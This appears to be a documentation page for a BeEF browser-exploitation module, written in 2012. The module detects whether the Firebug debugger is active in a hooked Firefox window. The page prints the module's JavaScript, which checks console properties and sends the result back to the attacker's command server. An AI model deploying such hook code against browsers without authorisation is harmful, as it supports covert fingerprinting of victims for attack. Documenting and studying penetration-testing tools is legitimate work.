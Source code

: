 ## Summary

* **Objective**: This module checks if the Mozilla Firefox Firebug extension is being use to inspect the current window.
* **Date**: February 2012
* **Author**: bcoles
* **Browser**: Firefox
* [code](https://github.com/beefproject/beef/tree/master/modules/browser/detect_firebug)

## Internal Working

This module test if _window.console.firebug_ or _window.console.exception_ objects exists to detect enabled firefbug module:

```javascript
beef.execute(function() {
    var result = "Not in use or not installed";
    if (window.console && (window.console.firebug || window.console.exception)) result = "Enabled and in use!";
        beef.net.send("<%= @command_url %>", <%= @command_id %>, "firebug="+result);
});
```

